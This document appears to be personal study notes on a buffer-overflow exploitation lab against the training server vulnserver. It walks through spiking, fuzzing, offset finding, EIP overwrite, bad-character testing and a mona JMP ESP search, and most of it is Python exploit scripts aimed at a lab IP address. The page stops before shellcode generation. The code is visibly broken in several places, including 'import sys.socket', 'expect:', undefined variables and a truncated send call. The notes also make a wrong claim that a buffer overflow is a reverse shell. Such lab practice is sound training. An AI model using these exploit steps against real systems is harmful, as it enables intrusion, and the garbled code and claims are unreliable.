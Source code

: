 ### Anatomy of the stack
---
- top
	- Extended Stack Pointer
	- Buffer Space
	- Extended Base Pointer
	- Extended Instruction Pointer/ Return Address
- Bottom 

Bufferover flow is a reverse shell

### Steps to conduct a buffer overflow
---
1. Fuzzing (spiking)
2. Finding the Offset
3. Overwriting the EIP
4. Finding the Bad Characters
5. Finding the Right Module
6. Generating Shellcode
7. Root!


### Spiking 
---
- Turn off windows defender 
- run vulnserver
- open immunity debugger
	- attach the vuln server
	- hit play
- kali 
	- nc to the ip address
	- ``` $ nc -nv 192.168.138.133 9999```
	- trun.spk
	``` 
		s_readline()
		s_string("TRUN ");
		s_string_variable("0");
	```
	- stats.spk
	```
		s_readline()
		s_string("STATS ");
		s_string_variable("0");
	```
	- ```$ generic_send_tcp $ip 9999 stats.spk 0 0```
	- ```$ generic_send_tcp $ip 9999 trun.spk 0 0```


### Where do we crash the server
---
- 1.py
```
#!/usr/bin/python3

import sys.socket
from time import sleep

buffer = "A"*100

while true:
	try:
		s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
		s.connect(('192.168.138.133, 9999'))
		payload = "TRUN /.:/"+buffer
		s.send((payload.encode()))
		s.close()
		sleep(1)
		buffer = buffer + "A"*100
	expect: 
		print("Fuzzing crashed at %s bytes" % str(len(buffer)))
		sys.exit()
```
- ctrl c
	- fuzzing crashed at 2400 bytes
	- /usr/share/metasploit-framework/tools/exploit/patten_create.rb -l 2400
	- copy the output
	- cp 1.py 2.py

2.py 
```
#!/usr/bin/python3

import sys.socket
from time import sleep

OFFSET = # PASTED FROM PATTERN_CREATE.RB

while true:
	try:
		s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
		s.connect(('192.168.138.133, 9999'))
		payload = "TRUN /.:/"+OFFSET
		s.send((payload.encode()))
		s.close()
		sleep(1)
		buffer = buffer + "A"*100
	expect: 
		print("Fuzzing crashed at %s bytes" % str(len(buffer)))
		sys.exit()
```

- pattern_offset.rb -1 2400 -q $eip
	- exact match at offset 2003

- copy 2.py 3.py


3.py
```

#!/usr/bin/python3

import sys.socket
from time import sleep

shellcode = "A"*2003 +"B"*4

while true:
	try:
		s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
		s.connect(('192.168.138.133, 9999'))
		s.send((payload.encode()))
		s.close()

	expect: 
		print("Error connecting to server")
		sys.exit()
```

Looking for bad characters 
copy 3.py 4.py
https://github.com/cytopia/badchars

```
#!/usr/bin/python3

import sys.socket
from time import sleep

badchars = (
  "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
  "\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
  "\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
  "\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
  "\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
  "\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
  "\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
  "\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
  "\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
  "\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
  "\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
  "\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
  "\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
  "\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
  "\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
  "\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
)
shellcode = "A"*2003 +"B"*4 + badchars


while true:
	try:
		s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
		s.connect(('192.168.138.133, 9999'))
		s.send((payload.encode()))
		s.close()

	expect: 
		print("Error connecting to server")
		sys.exit()

```


looking for characters that are off

### Finding the right module
- !mona modules
- looking for something that doesn't have memory protection
	- anything that says false 
- !mona jmp -r ESP -m "essfunc.dll" 


- cp 4.py 5.py
```
#!/usr/bin/python3

import sys.socket
from time import sleep

shellcode = b"A"*2003 +"B"*4 + "\xaf\x11\x50\x62"


while true:
	try:
		s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
		s.connect(('192.168.138.133, 9999'))
		s.send((b")
		s.close()

	expect: 
		print("Error connecting to server")
		sys.exit()
```


- cp